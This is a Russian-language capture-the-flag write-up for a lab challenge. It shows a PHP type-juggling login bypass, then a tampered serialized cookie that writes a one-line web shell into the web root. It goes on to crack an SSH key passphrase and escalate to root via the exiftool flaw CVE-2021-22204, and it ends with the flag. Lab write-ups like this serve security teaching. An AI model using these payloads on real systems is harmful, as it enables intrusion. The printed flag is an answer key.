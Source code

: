 # How?

## Описание:


| Название | Сложность | Автор |
|------|-----|-------|
| How? | Hard |[@collapsz](https://t.me/collapsz) |

## TLDR:

**Type Juggling**, **Insecure Deserialization**, **exiftool CVE**

---
## Решение:

Веб встречает весьма скудно:

<web>

Фаззинг при помощи `dirsearch`:

<fuzz>

`whatweb` – стек используемых технологий: 

<WW>

Перебор Auth Bypass методик может привести к Type Juggling:

И в самом деле запрос вида 

```
curl -X POST http://how.rdg/admin.php -d username=admin&password[]=
```

Вернет нам 302 код ответа и Set-Cookie, уведомляя об успешной авторизации

<скрин>

Внимательно приглядевшись к содержимому куки или воспользовавшись Burp Scan, можно увидеть ее необычное содержимое: 

<скрин>

Это ничто иное, как сериализованный объект, по содержимому которого становится понятно, что он логирует успешную авторизацию пользователя в файл /var/logs/log.txt 

Мы можем попробовать повлиять на этот процесс. Для этого нам потребуется повторно пройти авторизацию, но изменить куку ДО первого входа, чтобы успешно залогировать его в виде нужной нагрузки в нужном на месте. Для начала посмотрим на изначальный объект:

```
O:4:"User":3:{s:8:"username";s:5:"admin";s:13:"UserlogFile";s:17:"/var/logs/log.txt";s:16:"UserlogContent";s:16:"User logged in: ";}
```

Нам нужно изменить путь до лог-файла и содержимое логфайла.

В качестве нагрузки будем использовать простой однострочный шелл (внимательно смотрим на длину полезной нагрузки, это пригодится в атаке. В нашем случае – 15):

```
<?=`$_GET[0]`?>
```

В качестве пути к лог-файлу воспользуемся стандартной корневой директорией Apache – `/var/www/html`

Удаляем куку, повторно авторизуемся при помощи `Type Juggling`, перехватываем запрос с кукой, и заменяем объект на следующее (чтобы не собирать нагрузку вручную, можно воспользоваться `php serizalize` и `php unserialize` ):

```
O:4:"User":3:{s:8:"username";s:5:"admin";s:13:"UserlogFile";s:24:"/var/www/html/loz678.php";s:16:"UserlogContent";s:15:"<?=`$_GET[0]`?>";}
```

После замены пропускаем запрос на /admin.php и проверяем файл `/loz678.php`:

<скрин шелла>

Пробрасываем себе реверс-шелл и приступаем к перечислению ресурсов системы.

В /mnt/hjfs/delivery находим послание и `приватный ssh ключ`, сбрутив который получаем пассфразу: 

```
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
asshole          (kkknano)     
1g 0:00:02:02 DONE (2025-02-12 02:57) 0.008176g/s 15.82p/s 15.82c/s 15.82C/s 1234qwer..bigbird
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Авторизуемся под пользователем, проверяем sudoers:

```
dalton@28b9dd443e55:~$ sudo -l
sudo -l
Matching Defaults entries for dalton on 28b9dd443e55:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User dalton may run the following commands on 28b9dd443e55:
    (ALL) NOPASSWD: /usr/local/bin/exiftool
```

exiftool – perl скрипт. При помощи `head -n 50 /usr/local/bin/exiftool` можем узнать версию – 12.23:
```
dalton@28b9dd443e55:~$ head -n 50 /usr/local/bin/exiftool
head -n 50 /usr/local/bin/exiftool
#!/usr/bin/perl -w
#------------------------------------------------------------------------------
# File:         exiftool
#
# Description:  Read/write meta information
#
# Revisions:    Nov. 12/03 - P. Harvey Created
#               (See html/history.html for revision history)
#------------------------------------------------------------------------------
use strict;
require 5.004;

my $version = '12.23';
```

Это достаточно быстро выведет нас на (CVE-2021-22204)[https://www.exploit-db.com/exploits/50911]

При помощи эксплоита готовим вредоносную картинку и убеждаемся в работоспособности: 

<скрин id root>

Готовим сплоит на запуск `/bin/bash`, запускаем, получаем шелл

## Flag:
rdg{886891839c6bd6b86d650f9d788c8e08}
